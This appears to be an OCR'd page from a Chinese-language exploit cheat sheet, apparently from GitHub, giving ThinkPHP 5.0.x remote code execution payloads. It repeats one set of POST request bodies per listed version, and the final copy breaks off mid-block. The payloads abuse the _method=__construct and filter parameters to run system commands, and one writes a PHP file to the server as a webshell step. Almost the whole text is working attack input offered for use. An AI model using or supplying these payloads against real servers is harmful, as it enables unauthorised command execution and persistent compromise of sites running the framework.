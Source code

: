 默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
5.0.18
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
5.0.19
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
s=file_put_contents('test.php','<?php phpinfo();')&_method=__construct&method=POST&filter[]=assert
```
有captcha路由时无需debug=true
```
POST ?s=captcha/calc
_method=__construct&filter[]=system&method=GET
```
5.0.20
默认debug=false，需要开启debug 命令执行
```
POST ?s=index/index
s=whoami&_method=__construct&method=POST&filter[]=system
aaaa=whoami&_method=__construct&method=GET&filter[]=system
_method=__construct&method=GET&filter[]=system&get[]=whoami
c=system&f=calc&_method=filter
```
写shell
```
POST
```